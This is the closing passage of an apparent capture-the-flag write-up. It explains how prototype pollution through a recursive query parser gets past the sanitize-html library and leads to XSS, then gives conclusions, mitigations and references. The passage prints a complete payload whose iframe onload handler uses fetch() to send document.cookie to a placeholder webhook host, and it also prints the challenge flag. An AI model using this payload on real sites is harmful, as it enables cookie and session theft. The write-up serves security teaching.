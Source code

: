 * `allowedAttributesMap["*"]` is read without any `hasOwnProperty()` checks.
* If we poison `Object.prototype["*"]`, the sanitizer will read it — and treat whatever array we give it as a legitimate attribute whitelist.
* That means: if we can make `["onload"]` appear at `allowedAttributesMap["*"]`, then **any tag**, including `<iframe>`, can now carry an `onload`.

> `hasOwnProperty` would've mitigated the risk by only checking the direct properties and not climbing the prototype chain

### The Final Payload

So, putting it all together:

1. We craft a query string that results in `__proto__["*"] = ["onload"]`.
2. We add a sanitized tag (`<iframe>`) with an `onload` that exfiltrates cookies.
3. The recursive parser in `Query.js` writes into `__proto__`.
4. `sanitize-html` sees `allowedAttributesMap["*"] = ["onload"]` and happily allows it.

Here's the final payload:

```bash
http://127.0.0.1:5000/?__proto__[*]=['onload']&note=<iframe onload="fetch('https://webhook?c='+document.cookie)"></iframe>
```

And just like that, XSS is achieved.

![Primeagen](https://media1.tenor.com/m/hYU0XdvEzmAAAAAC/theprimeagen-primeagen.gif)

Flag is: `L3AK{v1b3_c0d1n9_w3nt_t00_d33p_4nd_3nd3d_1n_xss}`


## Conclusions

* The application trusted query parameters and used a recursive parser (`Query.js`) that allowed us to set arbitrary nested object keys, including special ones like `__proto__`.
* The sanitizer (`sanitize-html`) applied configuration settings without protecting against inherited properties from `Object.prototype`.
* By setting `__proto__[*]=["onload"]`, we polluted `allowedAttributesMap["*"]` to allow `onload` globally.
* Since `<iframe>` was an allowed tag, this enabled a clean `<iframe onload=...>` XSS payload.
* This is a classic case of **prototype pollution leading to XSS** in a context where object configs are used without `hasOwnProperty()` or `Object.create(null)`.

## References

1. [ECMAScript: Ordinary and Exotic Objects Behaviours (Section 10.1)](https://tc39.es/ecma262/#sec-ordinary-and-exotic-objects-behaviours)
2. [ECMAScript: Inherited Property Lookup (Section 9.1.8)](https://tc39.es/ecma262/#sec-inherited-property)
3. [ECMAScript: `[[GetPrototypeOf]]` Internal Method](https://tc39.es/ecma262/#sec-ordinarygetprototypeof)
4. [ECMAScript: Object Type Definition (Section 6.1.7)](https://tc39.es/ecma262/#sec-object-type)
5. [`sanitize-html` on npm](https://www.npmjs.com/package/sanitize-html)
6. [ApostropheCMS: `sanitize-html` GitHub Repository](https://github.com/apostrophecms/sanitize-html)
7. [Builder.io: Library summary of `sanitize-html`](https://best-of-web.builder.io/library/apostrophecms/sanitize-html)
8. [DOMPurify Bypass Research (Mizu)](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#proof-of-concept-2)
9. [sanitize-html Prototype Pollution & XSS — xclow3n](https://xclow3n.github.io/security/santize-html.html)
10. [`htmlparser2` GitHub Repository](https://github.com/fb55/htmlparser2)
11. [Securitum Research: Prototype Pollution & HTML Sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

